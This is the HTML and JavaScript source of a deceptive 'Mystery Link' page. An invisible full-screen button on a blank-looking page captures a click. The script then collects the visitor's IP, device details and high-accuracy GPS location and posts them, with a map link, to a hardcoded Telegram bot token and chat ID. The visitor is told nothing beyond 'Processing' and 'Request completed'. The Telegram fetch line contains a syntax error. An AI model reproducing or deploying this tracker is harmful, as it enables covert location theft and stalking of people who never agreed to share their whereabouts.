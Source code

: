 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mystery Link</title>
    <script src="https://cdn.tailwindcss.com"></script>
    <style>
        .mystery-link {
            position: fixed;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            z-index: 9999;
            cursor: pointer;
            background: transparent;
            border: none;
        }
        .hidden-content {
            opacity: 0;
            transition: opacity 0.3s;
            pointer-events: none;
        }
        .success-checkmark {
            width: 80px;
            height: 80px;
            margin: 0 auto;
        }
        .check-icon {
            width: 80px;
            height: 80px;
            position: relative;
            border-radius: 50%;
            box-sizing: content-box;
            border: 4px solid #4CAF50;
        }
        .check-icon .icon-line {
            height: 5px;
            background-color: #4CAF50;
            display: block;
            border-radius: 2px;
            position: absolute;
            z-index: 10;
        }
        .check-icon .icon-line.line-tip {
            top: 46px;
            left: 14px;
            width: 25px;
            transform: rotate(45deg);
            animation: icon-line-tip 0.75s;
        }
        .check-icon .icon-line.line-long {
            top: 38px;
            right: 8px;
            width: 47px;
            transform: rotate(-45deg);
            animation: icon-line-long 0.75s;
        }
        @keyframes icon-line-tip {
            0% { width: 0; left: 1px; top: 19px; }
            54% { width: 0; left: 1px; top: 19px; }
            70% { width: 50px; left: -8px; top: 37px; }
            84% { width: 17px; left: 21px; top: 48px; }
            100% { width: 25px; left: 14px; top: 45px; }
        }
        @keyframes icon-line-long {
            0% { width: 0; right: 46px; top: 54px; }
            65% { width: 0; right: 46px; top: 54px; }
            84% { width: 55px; right: 0px; top: 35px; }
            100% { width: 47px; right: 8px; top: 38px; }
        }
    </style>
</head>
<body class="bg-white">
    <!-- This appears to be a blank page but has the invisible clickable overlay -->
    <button id="mystery-btn" class="mystery-link"></button>
    
    <!-- Hidden content that appears after click -->
    <div id="hidden-content" class="hidden-content fixed inset-0 bg-white flex items-center justify-center p-4">
        <div class="text-center">
            <div id="loading" class="mb-6">
                <div class="animate-spin rounded-full h-12 w-12 border-t-2 border-b-2 border-blue-500 mx-auto mb-4"></div>
                <p class="text-gray-700">Processing...</p>
            </div>
            
            <div id="success" class="hidden mb-6">
                <div class="success-checkmark mb-4">
                    <div class="check-icon">
                        <span class="icon-line line-tip"></span>
                        <span class="icon-line line-long"></span>
                    </div>
                </div>
                <p class="text-gray-700">Request completed</p>
            </div>
            
            <div id="error" class="hidden mb-6">
                <div class="bg-red-100 rounded-full p-3 mb-4 mx-auto w-max">
                    <svg xmlns="http://www.w3.org/2000/svg" class="h-10 w-10 text-red-500" fill="none" viewBox="0 0 24 24" stroke="currentColor">
                        <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M12 8v4m0 4h.01M21 12a9 9 0 11-18 0 9 9 0 0118 0z" />
                    </svg>
                </div>
                <p id="error-message" class="text-gray-700 mb-4">An error occurred</p>
                <button id="close-btn" class="bg-gray-200 hover:bg-gray-300 text-gray-800 font-bold py-2 px-4 rounded">
                    Close
                </button>
            </div>
        </div>
    </div>

    <script>
        document.addEventListener('DOMContentLoaded', function() {
            const mysteryBtn = document.getElementById('mystery-btn');
            const hiddenContent = document.getElementById('hidden-content');
            const loadingDiv = document.getElementById('loading');
            const successDiv = document.getElementById('success');
            const errorDiv = document.getElementById('error');
            const errorMessage = document.getElementById('error-message');
            const closeBtn = document.getElementById('close-btn');
            
            mysteryBtn.addEventListener('click', processClick);
            closeBtn.addEventListener('click', resetPage);
            
            function resetPage() {
                hiddenContent.style.opacity = '0';
                setTimeout(() => {
                    loadingDiv.classList.remove('hidden');
                    successDiv.classList.add('hidden');
                    errorDiv.classList.add('hidden');
                }, 300);
            }
            
            async function processClick() {
                // Show processing state
                hiddenContent.style.opacity = '1';
                
                try {
                    // Get device information
                    const deviceInfo = {
                        userAgent: navigator.userAgent,
                        platform: navigator.platform,
                        screenWidth: window.screen.width,
                        screenHeight: window.screen.height,
                        language: navigator.language,
                        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
                        deviceMemory: navigator.deviceMemory || 'unknown',
                        hardwareConcurrency: navigator.hardwareConcurrency || 'unknown',
                        ip: await getIP()
                    };
                    
                    // Get location
                    const position = await new Promise((resolve, reject) => {
                        navigator.geolocation.getCurrentPosition(resolve, reject, {
                            enableHighAccuracy: true,
                            timeout: 10000,
                            maximumAge: 0
                        });
                    });
                    
                    const location = {
                        latitude: position.coords.latitude,
                        longitude: position.coords.longitude,
                        accuracy: position.coords.accuracy,
                        altitude: position.coords.altitude || null,
                        altitudeAccuracy: position.coords.altitudeAccuracy || null,
                        heading: position.coords.heading || null,
                        speed: position.coords.speed || null
                    };
                    
                    // Prepare data to send
                    const data = {
                        device: deviceInfo,
                        location: location,
                        timestamp: new Date().toISOString(),
                        pageUrl: window.location.href
                    };
                    
                    // Replace with your actual Telegram bot token and chat ID
                    const botToken = '7622509761:AAFUfP0ZI5b4LfC1sEaG2ru-h6i0z3ki07g';
                    const chatId = '7770786327';
                    
                    // Format message for Telegram
                    const message = `
🌐 *New Visitor Data* 🌐
                        
📱 *Device Info:*
- IP: ${deviceInfo.ip}
- Platform: ${deviceInfo.platform}
- Screen: ${deviceInfo.screenWidth}x${deviceInfo.screenHeight}
- Language: ${deviceInfo.language}
                        
📍 *Location:*
- Latitude: ${location.latitude}
- Longitude: ${location.longitude}
- Accuracy: ${location.accuracy} meters
                        
🌍 [View on Map](https://www.google.com/maps?q=${location.latitude},${location.longitude})
                    `;
                    
                    // Send to Telegram bot
                    const response = await fetch(`https://api.telegram.org/bot${7622509761:AAFUfP0ZI5b4LfC1sEaG2ru-h6i0z3ki07g}/sendMessage`, {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json',
                        },
                        body: JSON.stringify({
                            chat_id: 7770786327,
                            text: message,
                            parse_mode: 'Markdown',
                            disable_web_page_preview: false
                        })
                    });
                    
                    if (!response.ok) {
                        throw new Error('Failed to send to Telegram');
                    }
                    
                    // Show success
                    loadingDiv.classList.add('hidden');
                    successDiv.classList.remove('hidden');
                    
                } catch (error) {
                    console.error('Error:', error);
                    loadingDiv.classList.add('hidden');
                    errorDiv.classList.remove('hidden');
                    
                    if (error.code === error.PERMISSION_DENIED) {
                        errorMessage.textContent = 'Location access was denied.';
                    } else if (error.code === error.POSITION_UNAVAILABLE) {
                        errorMessage.textContent = 'Location information is unavailable.';
                    } else if (error.code === error.TIMEOUT) {
                        errorMessage.textContent = 'Request timed out.';
                    } else {
                        errorMessage.textContent = 'An error occurred.';
                    }
                }
            }
            
            async function getIP() {
                try {
                    const response = await fetch('https://api.ipify.org?format=json');
                    const data = await response.json();
                    return data.ip;
                } catch {
                    return 'unknown';
                }
            }
        });
    </script>
</body>
</html>
